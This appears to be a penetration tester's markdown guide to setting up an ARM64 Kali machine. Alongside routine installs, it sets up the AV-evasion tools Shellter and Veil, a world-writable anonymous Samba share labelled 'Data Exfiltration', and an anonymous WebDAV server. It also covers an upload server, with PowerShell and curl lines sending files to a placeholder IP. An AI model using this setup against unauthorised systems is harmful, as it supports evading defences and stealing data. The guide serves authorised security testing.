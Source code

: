 # Install tools on Kali (Arm64 M1)

## Install UTM Shared Folder

Install Spice Guest Tools `https://gist.github.com/lokka30/e2f04045c3b982690279d5ca8da3acb9#file-spice-guest-tools-debian-utm-md`

```bash
sudo apt install spice-vdagent spice-webdavd
# Run spice-vdagent
echo "# Install Spice Guest Tools"  >> .zshrc
echo "spice-vdagent" >> .zshrc
```

## Install Run x86 apps on Arm64

```bash
sudo apt update
sudo apt install -y qemu-user-static binfmt-support
sudo dpkg --add-architecture amd64
sudo apt update
sudo apt install libc6:amd64
```

## Install Docker

```bash
kali@kali:~$ sudo apt update
kali@kali:~$ sudo apt install -y docker.io
kali@kali:~$ sudo systemctl enable docker --now
```

## Install Shellter x86 only

* **Limitation**: Require x86, 32bit windows only
* Install Shellter for AV Evasion `https://github.com/dekadentno/bootleg-shellter-docker`

```docker
# Dockerfile
FROM debian:bookworm-slim

RUN apt-get update && \
    apt-get install -y wget nano && \
    dpkg --add-architecture i386 && \
    apt-get update && \
    apt-get install -y wine32 && \
    rm -rf /var/lib/apt/lists/*

RUN wget https://github.com/ParrotSec/shellter/blob/master/shellter.exe -O /usr/bin/shellter && \
    chmod 775 /usr/bin/shellter && \
    cp /usr/bin/shellter /usr/share/shellter.exe

ENTRYPOINT ["bash"]
```

```bash
sudo docker build --network host --platform linux/amd64 -t shellter:7.2 .
docker run -it --rm shellter:7.2
```

## Install Veil Framework x86 only

* **Limitation**: Require x86
* Install Veil for AV Evasion `https://github.com/Veil-Framework/Veil`

```bash
sudo apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

## Install .NET 8

Install script `https://learn.microsoft.com/en-us/dotnet/core/install/linux-scripted-manual`

```bash
wget https://dot.net/v1/dotnet-install.sh -O dotnet-install.sh
chmod +x ./dotnet-install.sh
./dotnet-install.sh --channel 8.0 --runtime dotnet
export DOTNET_ROOT=~/.dotnet
export PATH=$PATH:$DOTNET_ROOT:$DOTNET_ROOT/tools
# Add permanently to .zshrc
echo "# Install .NET" >> .zshrc
echo "export DOTNET_ROOT=~/.dotnet"  >> .zshrc
echo "export PATH=$PATH:$DOTNET_ROOT:$DOTNET_ROOT/tools"  >> .zshrc
```

## Install Powershell

Install script `https://learn.microsoft.com/en-us/powershell/scripting/install/install-other-linux?view=powershell-7.4#install-as-a-net-global-tool`

```bash
dotnet tool install --global PowerShell
```

## Install ExploitDB and SearchSploit

```bash
sudo apt -y install exploitdb
```

## Install VS Code

* Navigate to `https://code.visualstudio.com/download`
* Click ARM64 to download ... arm64.deb
* Install with apt

```bash
sudo apt install code...arm64.deb
```

## Install Linux NC windows-binary

```bash
sudo apt install windows-binaries
ll /usr/share/windows-binaries/
windows-binaries -h
```

## Install Anonymous Samba Server

```bash
# Install and configure share folder
sudo apt install samba
sudo cat /etc/samba/smb.conf

[share]
   path = /var/lib/samba/share
   comment = Data Exfiltration
   browsable = yes
   writable = yes
   guest ok = yes
;  guest only = yes
   force user = nobody
   create mask = 0666
   directory mask = 0755

# Create world writeable folder
sudo mkdir -p /var/lib/samba/share
sudo chmod -R 0777 /var/lib/samba/share
sudo chown -R nobody:nogroup /var/lib/samba/share

# Add user to samba share
sudo smbpasswd -a kali

# Run samba deamon
sudo systemctl start smdb
enum4linux -S ATTACKER-IP | grep -P "/share|Data Exfiltration"
```

## Install Anonymous WebDAV

```bash
sudo apt install python3-wsgidav
mkdir /home/kali/webdav
echo "WebDAV test" > /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

## Install Anonymous HTTP Upload Server

```bash
pip install uploadserver
```

Patch uploadserver.receive_upload(handler)

* Support single or multiple files
* Support Powershell UploadFile
* `(New-Object Net.WebClient).UploadFile('http://IP/upload', 'some-file.txt');`
* Support CURL file upload using option `-F`
* `curl -X POST http://IP/upload -F 'files=@example-1.txt' -F 'files=@example-2.txt'`

```python
# gedit /home/kali/.local/lib/python3.11/site-packages/uploadserver/__init__.py
# patch receive_upload(handler)
if 'file' in form:
    fields = form['file']
elif 'files' in form:
    fields = form['files']
else:
    return (http.HTTPStatus.BAD_REQUEST, 'Field "file" or "files" not found')
```

## TLDR

TL;DR: Tell us how touse the tools efficiently

```bash
sudo apt update && sudo apt install tldr
tldr --update
```
